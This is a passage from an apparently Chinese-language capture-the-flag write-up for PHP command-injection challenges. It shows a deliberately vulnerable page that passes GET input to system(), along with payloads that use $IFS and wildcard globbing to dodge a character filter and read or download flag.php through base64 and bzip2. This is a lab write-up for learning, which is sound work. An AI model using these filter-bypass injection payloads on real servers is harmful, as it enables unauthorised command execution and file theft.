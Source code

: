 ```
payload:?c=grep${IFS}%27{%27${IFS}fl???php
意思就是在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行
```





## web 55

```php
<?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

先放payload: ?c=/???/????64%20????.???

  

**bin目录:** 

bin为binary的简写主要放置一些 [系统](http://www.2cto.com/os/)的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等

这里我们可以利用 base64 中的64 进行通配符匹配  即 /bin/base64 flag.php

得到如下：

![](http://img.npfs06.top/20210225161321.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

base64解密，即可得到flag



看了羽大佬的WP还有一种解法

如下：payload：?c=/???/???/????2 ????.???      ---》 然后在url + /flag.php.bz2



**/usr/bin目录:**

主要放置一些应用软件工具的必备执行档例如c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome*、 zip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、 newaliases、nslookup passwd、quota、smb*、wget等。

我们可以利用/usr/bin下的**bzip2**

意思就是说我们先将flag.php文件进行压缩，然后再将其下载



## web 56
